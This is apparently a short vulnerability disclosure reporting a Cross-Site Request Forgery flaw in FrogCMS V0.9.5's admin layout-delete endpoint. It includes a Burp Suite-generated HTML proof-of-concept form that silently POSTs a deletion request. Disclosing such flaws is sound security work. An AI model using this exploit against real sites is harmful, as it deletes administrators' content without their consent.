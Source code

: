 
target:https://github.com/philippe/FrogCMS
version: V0.9.5

FrogCMS V0.9.5 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/?/layout/delete/1

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/?/layout/delete/1" method="POST">
      <input type="hidden" name="/layout/delete/1" value="" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

